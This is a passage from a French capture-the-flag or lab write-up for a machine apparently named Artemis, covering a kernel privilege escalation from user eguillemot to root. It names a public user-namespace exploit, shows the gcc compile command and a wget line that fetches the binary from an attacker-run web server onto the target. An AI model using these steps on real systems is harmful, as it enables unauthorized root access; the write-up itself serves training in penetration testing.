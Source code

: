 flag root.txt:

![image-20210325235317154](Artemis.assets/image-20210325235317154-1616951525132.png)



Le chemin surprise consiste à passer de l'utilisateur eguillemot à root.

<p align= "left">
 <h6 align= "left"><U>2.Surprise</U></h6>
</p>

En récupérant la version du kernel et en faisant un searchsploit on voit qu'elle est vulnérable.

![image-20210326160337182](Artemis.assets/image-20210326160337182-1616951625382.png)

![image-20210326161141971](Artemis.assets/image-20210326161141971-1616951625383.png)

La CVE nous renvoie vers le script suivant :

www.halfdog.net/Misc/Utils/UserNamespaceExec.c

Compiler le code c:

> gcc UserNamespaceExec.c -o UserNamespaceExec

![image-20210326163713912](Artemis.assets/image-20210326163713912-1616951625383.png)

On ouvre un serveur web afin de récupérer le script sur la machine distante.

> wget 192.168.52.128:8000/UserNamespaceExec

![image-20210326164835851](Artemis.assets/image-20210326164835851-1616951625383.png)
